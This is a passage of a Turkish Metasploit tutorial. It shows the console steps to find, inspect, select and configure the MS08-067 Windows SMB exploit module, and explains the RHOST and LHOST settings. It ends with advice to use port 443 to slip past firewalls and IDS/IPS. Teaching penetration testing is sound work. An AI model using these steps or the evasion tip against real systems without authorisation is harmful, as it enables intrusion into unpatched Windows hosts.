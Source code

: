 Ama istersek Metasploit'in dahili arama motorundan da faydalanabiliriz. 

```ShellSession
msf > search ms08-067

Matching Modules
================
Name            Disclosure       Date Rank Description
----            --------------- ---- -----------
.../ms08_067_netapi 2008-10-28 00:00:00 UTC great Microsoft Server
```

Modül hakkında bilgi almak için `info [modul_ismi]`

```ShellSession
msf > info exploit/windows/smb/ms08_067_netapi
Name: Microsoft Server Service Relative Path Stack Corruption Module: exploit/windows/smb/ms08_067_netapi
Version: 0
Platform: Windows
Privileged: Yes
License: Metasploit Framework License (BSD)
Rank: Great
```

Aradığımız modülün bu olduğna emin olduktan sonra `use [modul_ismi]` ile kullanmaya başlayabiliriz. 

```ShellSession
msf > use windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) >
```

Kullanacağımız modülü seçtikten sonra komutu çalıştırabilmek için lazım olan bilgiyi görmek için `show options`

```ShellSession
msf exploit(ms08_067_netapi) > show options
Module options (exploit/windows/smb/ms08_067_netapi):
Name Current Setting Required Description 
---- --------------- -------- -----------
RHOST                yes The target address
RPORT   445          yes Set the SMB service port
SMBPIPE BROWSER      yes The pipe name to use (BROWSER, SRVSVC)

Exploit target:
    Id  Name
    --  ----
    0   Automatic Targeting
```

__Required__ sütününda __'yes'__ ile belirtilen seçeneklerin mutlaka belirtilmesi gerekir.
Bu ayarlar şöyle yapılı;
* __RHOST =__ hostname veya ip adresi yazılabilir
* __LHOST =__ saldırıyı yapan sistemin ip adresi

Firewall, IDS/IPS'leri atlatmak için 443. portu kullanmanız önerilir.
